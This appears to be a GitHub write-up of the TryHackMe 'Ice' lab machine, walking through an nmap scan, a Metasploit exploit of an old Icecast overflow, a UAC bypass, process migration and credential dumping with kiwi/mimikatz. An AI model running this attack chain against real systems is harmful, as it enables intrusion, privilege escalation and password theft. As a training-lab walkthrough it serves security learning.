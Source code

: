# ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```
![img of port scan](port_scan.png) <br>
we search for vulnerablilites on CVE for the icecast service on port 8000<br>
found vulnerability execute code overflow CVE-2004-1561 <br>
## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>
![img of pwned machine](pwn.png)
## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>
![img of possible exploits](exploits.png)

we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>
![img of escalated machine](escalate.png)
```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
## 4. Stealing data
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>
![img of stolen credentials](creds.png)

with this we clear the ice room.<br>
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>

